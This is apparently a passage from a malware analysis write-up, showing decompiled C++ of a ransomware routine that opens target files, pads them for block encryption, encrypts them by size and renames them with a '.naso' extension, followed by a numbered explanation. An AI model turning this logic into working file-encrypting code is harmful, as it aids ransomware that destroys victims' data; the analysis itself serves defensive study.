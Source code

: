 ```cpp
  result = needEncrypt;
  if ( needEncrypt )
  {
    result = CreateFileW(name, 0xC0000000, 0, 0i64, 3u, 0x80u, 0i64);
    hFile = result;
    if ( result != -1 )
    {
      v6 = GetFileSizeEx(result, &FileSize);
      result = v6;
      if ( v6 )
      {
        alignBytes = 16 - FileSize.QuadPart % 0x10ui64;
        if ( alignBytes == 16 )
          alignBytes = 0;
        if ( FileSize.QuadPart >= 0x10000ui64 ) // large than 65536 bytes
        {
          result = EncryptLargeFile(hFile, name, FileSize.QuadPart + alignBytes + 17, alignBytes, encryptionKey);
          if ( !result )
            return result;
        }
        else
        {
          result = EncryptSmallFile(hFile, name, FileSize.LowPart + alignBytes + 17, alignBytes, encryptionKey);
          if ( !result )
            return result;
        }
        lpNewFileName = wstrmerge(name, aNaso);
        if ( !MoveFileW(name, lpNewFileName) )
        {
          LastError = GetLastError();
          v19 = std::ostream::operator<<(std::cout, LastError);
          std::ostream::operator<<(v19, sub_7FF749A77710);
        }
        return FreeHeapMemory(lpNewFileName);
      }
    }
  }
  return result;
}
```

Yes, this function was not easy to parse, but now it appears to us in the most understandable and readable form, so let's understand its action on our fingers:

1. Searching for files whose extensions are equal to the desired ones
2. Opening the file to be encrypted
3. Calculating the required number of bytes for 16-byte alignment
4. Branching based on file size (larger than 65536 bytes are considered large)
5. Passing to the appropriate function the file descriptor, file name, alignment-aware size and ***decryption information****, as well as the key.
6. Adding the .naso extension to the encrypted file and freeing resources
